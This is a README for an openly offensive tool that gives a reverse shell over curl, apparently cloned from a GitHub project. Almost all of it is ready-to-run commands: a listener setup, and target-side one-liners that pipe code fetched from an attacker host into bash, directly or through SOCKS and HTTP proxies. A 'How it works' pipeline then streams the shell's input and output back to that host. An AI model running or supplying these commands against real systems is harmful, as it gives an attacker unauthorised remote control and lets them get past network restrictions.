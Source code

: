 # Reverse shell using curl

(Cloned from [https://github.com/irsl/curlshell](https://github.com/irsl/curlshell); slightly enhanced)

A reverse TCP shell through a proxy (using cURL).

It allows an attacker to access a remote shell (bash) when the remote system can only access the Internet via a Proxy (and no other binaries can be installed or executed). It only needs `curl` and `bash`.

Generate a SSL Certificate:
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

## Without Proxy

```sh
# Start your listener
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | bash
```

## With SOCKS Proxy
```sh
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | bash
```

## With HTTP Proxy
```sh
./curlshell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | bash
```

## With HTTP (plaintext)
```sh
./curlshell.py --listen-port 8080
```
```sh
curl -sfL http://1.2.3.4:8080 | bash
```

# How it works
The first cURL request pipes this into a bash:
```sh
stdbuf -i0 -o0 -e0 curl -X POST -sk https://1.2.3.4:8080/input \
    | bash 2> >(curl -sk -T - https://1.2.3.4:8080/stderr) \
    | curl -sk -T - https://1.2.3.4:8080/stdout
```

The bash then starts 3 cURL processes to connect stdin, stdout and stderr. HTTP's 'chunked transfer' does the rest.

